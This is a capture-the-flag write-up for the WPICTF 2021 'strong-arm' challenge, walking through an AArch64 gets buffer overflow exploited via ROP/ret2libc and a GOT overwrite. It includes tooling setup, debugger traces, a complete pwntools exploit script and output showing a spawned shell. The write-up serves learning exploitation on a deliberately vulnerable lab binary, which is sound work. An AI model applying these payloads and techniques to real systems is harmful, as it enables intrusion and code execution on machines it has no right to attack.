


# WPICTF 2021

## strong-arm

> 300
> 
> Don't break my arms.
>
> Connect `nc 172.104.14.64 54732`
>
> [`arm.c`](`arm.c`) [`libc-2.23.so`](`libc-2.23.so`) [`arm`](`arm`)

Tags: _pwn_ _bof_ _rop_ _ret2libc_ _got-overwrite_ _arm_ _arm64_ _aarch64_ _stack-pivot_


## Summary

Aarch64-based `gets` babyrop.

This was my 2nd ARM-based CTF challenge, the first was last weekends [`furor-RPI`](https://github.com/datajerk/ctf-write-ups/tree/master/umdctf2021/furor).  Perhaps a trend is starting.

`furor-RPI` is 32-bit, on-metal, no OS; I used shellcode.

`arm` is 64-bit, on Linux, no shellcode.

Similar tools, but different enough to write up.

I'll provided two solutions in this write up, my original based on ROP and ret2libc, and one posted to Discord by jauler#5417 based on a clever stack pivot, ROP, and GOT overwrite.


## Tooling

I explored various options post exploit to better understand the pros/cons with each approach.


### Option 1: Aarch64 on Aarch64

This is identical to solving any x86/x86-64 problem on my x86-64 workstation.  I just happen to have a cluster of Aarch64 machines; creating an Ubuntu 20.04 VM took ~250 seconds using [cloudimg](https://cloud-images.ubuntu.com/focal/current/focal-server-cloudimg-arm64.img).  After that I just needed to install a few OS/python packages and GEF:

```bash
apt-get install -qy gdb build-essential python3 wget curl python3-pip
python3 -m pip install ropper pwntools
wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | bash
```

This is the path I took since it'd be identical to what I'm accustomed to from within my CTF Docker container; and it does have a [cosmetic] advantage over using remote GDB/GEF (see _Tooling Summary_ below).

> My Aarch64 machines are just 8 GB RPi4s running Ubuntu 20.04.  This provides a 64-bit OS as well as KVM acceleration (yes, you can run full speed Aarch64 VMs on an RPi4).


### Option 2: Aarch64 on x86_64/Aarch64 with Docker

```bash
cat >Dockerfile.ubuntu20.arm64v8 <<'EOF
FROM arm64v8/ubuntu:20.04

ENV LC_CTYPE C.UTF-8
ENV DEBIAN_FRONTEND noninteractive

WORKDIR /root
RUN yes | unminimize
RUN dpkg --add-architecture arm
RUN apt-get update
RUN apt-get install -qy strace ltrace gdb build-essential python3 wget curl python3-pip
RUN python3 -m pip install ropper pwntools
RUN (wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | bash)
EOF
docker build --no-cache --platform linux/arm64v8 -t ctf_arm64v8:v1 -f Dockerfile.ubuntu20.arm64v8 .
```

You can omit the `--platform linux/arm64v8` if Aarch64 on Aarch64 [native], otherwise this will enable Docker to build and run a container for another arch on your arch, and it will behave the same as Aarch64 on Aarch64 from Option 1, just slower (QEMU under the hood).

Build times:

```
Apple M1 Mac Mini (8gb) [native]:        158 s
RPi4 (Ubuntu 20.04) [native]:            872 s
3.0 GHz x86_64 workstation [emulated]:  2604 s
```

Emulation is slow.  However it's good enough in most cases for working on problems like this.  You may not really notice it that much.


### Option 3: Aarch64 on x86_64 with QEMU-user

If I didn't have Option 1 above, this is what I would have ended up using and what I have used in the past with Sparc and MIPS challenges.  This is fast and requires just a bit of work.

```
apt-get install -qy qemu-user libc6-arm64-cross gdb-multiarch
```

Should be all you need.

To run the challenge binary:

```
qemu-aarch64 -L /usr/aarch64-linux-gnu arm
```

To debug it:

```
qemu-aarch64 -g 9000 -L /usr/aarch64-linux-gnu arm
```

This will block until you connect GDB from another terminal and then `c`, `si`, etc...  E.g. with GEF installed:

```
cat >script <<'EOF'
file arm
set sysroot /usr/aarch64-linux-gnu
gef-remote -q localhost:9000
EOF
gef -x script
```


### ld.so

I did not need `ld.so` for this challenge; in most cases if it is included you probably need it and if not included you can do without.  However I still tested with it as part of this writeup.

```
# strings libc-2.23.so | grep Library
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu3) stable release version 2.23
```

Google search of `2.23-0ubuntu3` will provide a link to a `.deb` that you can extract with:

```
# wget https://launchpad.net/ubuntu/+source/glibc/2.23-0ubuntu3/+build/9576942/+files/libc6_2.23-0ubuntu3_arm64.deb
# ar x libc6_2.23-0ubuntu3_arm64.deb data.tar.xz
# tar xvf data.tar.xz ./lib/aarch64-linux-gnu/ld-2.23.so
# ln -s -f ./lib/aarch64-linux-gnu/ld-2.23.so ld.so
# ln -s -f libc-2.23.so libc.so.6
```

You could have also just `docker run --rm -it ubuntu:16.04 /bin/bash`, installed `libc6-arm64-cross`, and extracted from there too.

CLI execution:

```
# ./ld.so --library-path ./ ./arm
```

pwntools:

```
ld = ELF('./ld.so')
libc = ELF('./libc-2.23.so')
p = process([ld.path, binary.path], env={"LD_PRELOAD": libc.path})
```    


### Tooling Summary

The only noticeable difference between options 1/2 vs. 3 is the output of GEF.  GEF struggles a bit with QEMU remote/cross debugging.

These are not the only options, just the ones that I researched.

Remote:



Local:



Cosmetic differences, both are equally as useful.


## Analysis

### Checksec

```
    Arch:     aarch64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Anything goes but easy shellcode.

> I never looked at this, all I saw was `gets` and a free libc leak and made up my mind--ROP.


### Source

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vulnerable() {
    char buffer[128];

    printf("> ");
    fflush(stdout);
    gets(buffer);
    puts("Your Input: \n");
    puts(buffer);
    fflush(stdout);
}

int main(int argc, char** argv) {
    printf("print at %p\n", printf);
    vulnerable();
    return EXIT_SUCCESS;
}
```

`gets` is the vulnerability and we get a free libc leak from `printf`.


### Decompile in Ghidra

> I still prefer to look at the Ghidra decompile for most problems, after over a year of using it, I've become accustom to how it decompiles, labels, and I enjoy the consistency and the stack diagrams.

```c
int vulnerable(void)
{
  int iVar1;
  char acStack128 [128];
  
  printf("> ");
  fflush(stdout);
  gets(acStack128);
  puts("Your Input: \n");
  puts(acStack128);
  iVar1 = fflush(stdout);
  return iVar1;
}
```

The buffer for `gets` is 128 bytes from the end of the stack (Ghidra `acStack128`, `128` decimal not to be confused with `local_10` that is `0x10` from the end of the stack).

If this were x86-64 we'd just write out 128 bytes of garbage followed by `pop rdi, */bin/sh, system`.  But Aarch64 isn't x86_64.


### Aarch64 ROP

That [aarch64 rop] is exactly what I googled, and the first interesting hit was [this article](https://blog.perfect.blue/ROPing-on-Aarch64).  So I read it, and use it.

Other useful docs:

* [A Guide to ARM64 / AArch64 Assembly on Linux with Shellcodes and Cryptography](https://modexp.wordpress.com/2018/10/30/arm64-assembly/)
* [Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md)


#### `ret` doesn't pop

Aarch64 `call` is `bl` (branch and link).  `bl` will set `x30` with the address of the next instruction (`pc+4`) before jumping vs. x86-64 where the next instruction address in pushed to the stack.

```assembly
  4006d4:	97ffffe0 	bl	400654 <vulnerable>
```

The `vulnerable` function start with "allocating" the stack for `144` bytes; storing `x29` (think x86-64 `rbp`) and `x30` (return address) _at the top of the stack, all the local variables are below that and writing down stack clearly does not overwrite them_; then `sp` is moved to `x29` (the base of all local variable addressing):

```assembly
0000000000400654 <vulnerable>:
  400654:	a9b77bfd 	stp	x29, x30, [sp, #-144]!
  400658:	910003fd 	mov	x29, sp
```

At the end of the function the x86-64 equivalent to `leave; ret;`:

```
  4006a8:	a8c97bfd 	ldp	x29, x30, [sp], #144
  4006ac:	d65f03c0 	ret
```  

This restores the preserved `x29`, `x30` from the stack, moves the stack pointer back to where it was before the function call.  The `ret` just jumps to the address in `x30`.

This is a bit more involved than x86-64 ROP chains and gadgets will usually look something like this:

```
0x00000000000b95e8: ldr x0, [x29, #0x10]; ldp x29, x30, [sp], #0x20; ret;
0x0000000000034f14: ldr x0, [x29, #0x18]; ldp x29, x30, [sp], #0x20; ret;
0x00000000000fb2d4: ldr x0, [x29, #0x28]; ldp x29, x30, [sp], #0x30; ret;
0x0000000000031450: ldr x0, [x29, #0xa8]; ldp x29, x30, [sp], #0x140; ret;
```

> Found with:
>
>```
# ropper --nocolor --file libc-2.23.so | grep ': ldr x0, \[x29, #0x.[0-9a-f]*\]; ldp x29, x30, \[sp\], #0x[0-9a-f]*; ret; $'
```

The above gadgets will load `x0` from `x29` offset by `#0x10`, `#0x18`, etc..., then load your `x29`, `x30` from the stack before jumping to `x30`.  The stack pointer will also move just before the `ret`, so expect your ROP chain to not look so linear.

_But if the preserved `x29`, `x30` are NOT down stack, how do I over write them?_

You don't, you're attacking the calling functions `x29`, `x30`.  IOW, `main` calls `vulnerable` and `vulnerable` returns to `main` exactly as intended, it is `main`'s preserved `x29`, `x30` we can overwrite.


#### Finding Gadgets

From the leak and the provided libc I have the addresses of `system` and the string `/bin/sh\0`.  All I need to do is put the address of `/bin/sh\0` in `x0` and call `system`.

Well easier said than done.  There's no usable `ldr x0, [sp]` gadget and setting `x29` without a stack address leak was also a challenge, so I settled on these two (there's actually a gadget in `arm` that will move `sp` to `x29`, but I had all of libc, surely that is better, right? :-):

The first will load `x19`, `x20` from the stack offset by `0x10`:

```
ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
```

The second will move `x19` to `x0`:

```
mov x0, x19; ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
```

Finding them require crafting some `grep` strings to look for `ldr` and `ldp` loading from the stack, and a matching `mov` to get into `x0`.

It was not terribly difficult or time consuming, most of my time was spent getting my tooling setup and learning how Aarch64 works.


#### Exploit Walkthrough

> This is going to be painfully long.  Instead of walking through how I developed this (too long), I'll just walkthrough the exploit, step-by-step.

Payload:

```
128 bytes of garbage to get to end of stack
BBBBBBBB as main x29
8 byte first gadget address (main x30)
(32-16) bytes of C, required for the main ldp x29, x30, [sp], #32
CCCCCCCC as first gadget x29
8 byte second gadget address (x30)
8 byte pointer to /bin/sh (sp is 16 bytes above us pointing to our x29 CCCCCCCC)
(0x20-16-8, the 16 is for x29/x30, and the 8 for /bin/sh) bytes of garbage required for the ldp x29, x30, [sp], #0x20
DDDDDDDD as the second gadget x29
8 bytes for address of system call (x30)
```

Make sense?  If so, skip this part.

Walkthrough.

Start by setting a breakpoint at `*vulnerable+84`:

```
0x0000ffffe27d9ad0│+0x0000: 0x0000ffffe27d9b60  →  0x4242424242424242	 ← $x29, $sp
0x0000ffffe27d9ad8│+0x0008: 0x00000000004006d8  →  <main+40> mov w0,  #0x0
0x0000ffffe27d9ae0│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9ae8│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9af0│+0x0020: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9af8│+0x0028: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b00│+0x0030: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b08│+0x0038: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b10│+0x0040: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b18│+0x0048: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b20│+0x0050: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b28│+0x0058: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x0000ffffe27d9b30│+0x0060: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABB[...]"
0x0000ffffe27d9b38│+0x0068: 0x4141414141414141
0x0000ffffe27d9b40│+0x0070: 0x4141414141414141
0x0000ffffe27d9b48│+0x0078: 0x4141414141414141
0x0000ffffe27d9b50│+0x0080: 0x4141414141414141
0x0000ffffe27d9b58│+0x0088: 0x4141414141414141
0x0000ffffe27d9b60│+0x0090: 0x4242424242424242
0x0000ffffe27d9b68│+0x0098: 0x0000ffff9eac5cbc  →   ldp x19,  x20,  [sp,  #16]
0x0000ffffe27d9b70│+0x00a0: 0x4343434343434343
0x0000ffffe27d9b78│+0x00a8: 0x4343434343434343
0x0000ffffe27d9b80│+0x00b0: 0x4343434343434343
0x0000ffffe27d9b88│+0x00b8: 0x0000ffff9eae6080  →  <__xpg_basename+120> mov x0,  x19
0x0000ffffe27d9b90│+0x00c0: 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)
0x0000ffffe27d9b98│+0x00c8: 0x4444444444444444
0x0000ffffe27d9ba0│+0x00d0: 0x4444444444444444
0x0000ffffe27d9ba8│+0x00d8: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)
```

We know from the start of `vulnerable` that the stack was allocated for `144` bytes (see _`ret` doesn't pop_ above), i.e. stack lines 0x0000 - 0x0088 (inclusive) above.  At the top of the stack is `x29`, `x30`, i.e. the preserved base pointer and return address for `main`, and we cannot change them from here.  However at `0x0090` and `0x0098` are the preserved base pointer (`x29`) and return address (`x30`) for when `main` _leaves_; these we can overwrite with `BBBBBBB` and our first gadget.

Our first gadget will load into `x19	` and `x20` the pointer to `/bin/sh\0` and some garbage (`CCCCCCCC`) from `sp + 16`, however `sp + 16` is NOT pointing at `/bin/sh\0`.

We know that the `sp` will be moved down `144` at the end of `vulnerable`, so think of `sp` pointing to `0x0090`, this would be the top of the `main` stack frame.  If we look at the end of main:

```
   0x00000000004006dc <+44>:	ldp	x29, x30, [sp], #32
```

Above will load our `BBBBBBBB` into `x29` and our first gadget address into `x30`, then move the stack down 32 bytes (now `sp` is pointing to line `0x00b0` when the gadget executes.  Now `sp + 16` is pointing to our string.

Above that however is the `x29`, `x30` pair that we need to setup for the first gadget to chain to the second gadget.

This can get quite maddening.  Just remember at the end of each `ret`, `sp` will be pointing to the top of the previous stack frame, and the first two lines are `x29` and `x30` then your payloads, padding, etc... and you also need to track change in `sp` after each `ldp x29, x30, [sp], #nnn`.

Setting a breakpoint at `*main+44` and continuing on:

```
0x0000ffffe27d9b60│+0x0000: 0x4242424242424242	 ← $x29, $sp
0x0000ffffe27d9b68│+0x0008: 0x0000ffff9eac5cbc  →   ldp x19,  x20,  [sp,  #16]
0x0000ffffe27d9b70│+0x0010: 0x4343434343434343
0x0000ffffe27d9b78│+0x0018: 0x4343434343434343
0x0000ffffe27d9b80│+0x0020: 0x4343434343434343
0x0000ffffe27d9b88│+0x0028: 0x0000ffff9eae6080  →  <__xpg_basename+120> mov x0,  x19
0x0000ffffe27d9b90│+0x0030: 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)
0x0000ffffe27d9b98│+0x0038: 0x4444444444444444
0x0000ffffe27d9ba0│+0x0040: 0x4444444444444444
0x0000ffffe27d9ba8│+0x0048: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)
```

The stack pointer was moved to the `BBBBBBBB` and first gadget we set in stack.

One single step:

```
$x29 : 0x4242424242424242 ("BBBBBBBB"?)
$x30 : 0x0000ffff9eac5cbc  →   ldp x19,  x20,  [sp,  #16]
$sp  : 0x0000ffffe27d9b80  →  0x4343434343434343 ("CCCCCCCC"?)
$pc  : 0x00000000004006e0  →  <main+48> ret
$cpsr: [negative ZERO CARRY overflow interrupt fast]
$fpsr: 0x0
$fpcr: 0x0
───────────────────────────────────────────────────────────────────────── stack ────
0x0000ffffe27d9b80│+0x0000: 0x4343434343434343	 ← $sp
0x0000ffffe27d9b88│+0x0008: 0x0000ffff9eae6080  →  <__xpg_basename+120> mov x0,  x19
0x0000ffffe27d9b90│+0x0010: 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)
0x0000ffffe27d9b98│+0x0018: 0x4444444444444444
0x0000ffffe27d9ba0│+0x0020: 0x4444444444444444
0x0000ffffe27d9ba8│+0x0028: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)
```

We basically just executed `main` `ldp x29, x30, [sp], #32`, the `x30` register now points to our first gadget, and the stack pointer is at the `x29`, `x30` we setup as the second gadget.  The pointer to `/bin/sh` is 16 bytes down stack for the first gadget to load from.

After 3 `si`'s:

```
$x19 : 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)
$x20 : 0x4444444444444444 ("DDDDDDDD"?)
$x21 : 0x0
$x22 : 0x0
$x23 : 0x0
$x24 : 0x0
$x25 : 0x0
$x26 : 0x0
$x27 : 0x0
$x28 : 0x0
$x29 : 0x4343434343434343 ("CCCCCCCC"?)
$x30 : 0x0000ffff9eae6080  →  <__xpg_basename+120> mov x0,  x19
$sp  : 0x0000ffffe27d9ba0  →  0x4444444444444444 ("DDDDDDDD"?)
$pc  : 0x0000ffff9eac5cc4  →   ret
$cpsr: [negative ZERO CARRY overflow interrupt fast]
$fpsr: 0x0
$fpcr: 0x0
───────────────────────────────────────────────────────────────────────── stack ────
0x0000ffffe27d9ba0│+0x0000: 0x4444444444444444	 ← $sp
0x0000ffffe27d9ba8│+0x0008: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)
```

`x19` is now pointing to `/bin/sh`, `x30` is loaded up with the address of the second gadget.

The stack frame for the 2nd gadget has `x29` and `x30` set to garbage and `system` respectively.

After 4 `si`'s:

```
$x0  : 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)
...
$x30 : 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)
```

`x0` is pointing to `/bin/sh` and `x30` pointing to `system`, just `continue` to pop a shell.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./arm')

if args.REMOTE:
    p = remote('172.104.14.64', 54732)
    libc = ELF('./libc-2.23.so')
    p.recvuntil('printf at ')
else:
    if os.uname().machine == context.arch:
        p = process(binary.path)
        libc = binary.libc
    else:
        if args.GDB:
            p = process(('stdbuf -i0 -o0 -e0 qemu-'+context.arch+' -g 9000 -L /usr/'+context.arch+'-linux-gnu '+binary.path).split())
        else:
            p = process(('stdbuf -i0 -o0 -e0 qemu-'+context.arch+' -L /usr/'+context.arch+'-linux-gnu '+binary.path).split())
        libc = ELF('/usr/'+context.arch+'-linux-gnu/lib/libc.so.6')
    p.recvuntil('print at ')
```

More that your standard pwntools starter; I included support for all the options I described above in the _Tooling_ section above.

```python
_ = p.recvline().strip().decode()
printf = int(_,16)
libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))

payload  = b''
payload += 128 * b'A'
payload += 8 * b'B'
payload += p64(libc.search(asm('ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;')).__next__())
payload += (8 * 3) * b'C'
payload += p64(libc.search(asm('mov x0, x19; ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;')).__next__())
payload += p64(libc.search(b"/bin/sh").__next__())
payload += (8 * 2) * b'D'
payload += p64(libc.sym.system)

p.sendlineafter('> ',payload)
for i in range(3): p.recvline()
p.interactive()
```

The rest of this just follows the _Exploit Walkthrough_ from above and should be fairly straightforward.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/wpictf2021/strong-arm/arm'
    Arch:     aarch64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/wpictf2021/strong-arm/libc-2.23.so'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 172.104.14.64 on port 54732: Done
[*] libc.address: 0x4000836000
[*] Switching to interactive mode
$ cat flag.txt
WPI{a1ARM3d_arM315}
```


## Exploit GOT-overwrite

Replace the payload above with:

```python
payload  = b''
payload += 128 * b'A'
payload += p64(binary.got.puts-0x10-0x08)
payload += p64(0x400678)
payload += b'\n'
payload += b'/bin/sh\0'
payload += p64(libc.sym.system)
```

This sets `x29` as the base of a stack frame in the GOT 24 bytes above the `puts` GOT entry, then sets `x30` as the `gets` in `vulnerable`:

```assembly
  400678:       910043a0        add     x0, x29, #0x10
  40067c:       97ffffb1        bl      400540 <gets@plt>
  400680:       90000000        adrp    x0, 400000 <_init-0x4a0>
  400684:       911e8000        add     x0, x0, #0x7a0
  400688:       97ffffa2        bl      400510 <puts@plt>
  40068c:       910043a0        add     x0, x29, #0x10
  400690:       97ffffa0        bl      400510 <puts@plt>
```

The first instruction sets the location of the string for `gets` in `x0` as `x29 + 16`, the other `8` bytes we subtracted from the location of `binary.got.puts` was for the string `/bin/sh\0`.

When `gets` is call on `main` `ret` that last two lines of the payload will overwrite `abort` and `puts` in the GOT with `/bin/sh` and the address of `system`.  With `puts` now `system`, the second `puts` _puts_ `/bin/sh`, but it's really `system` and we get a shell.

Nice!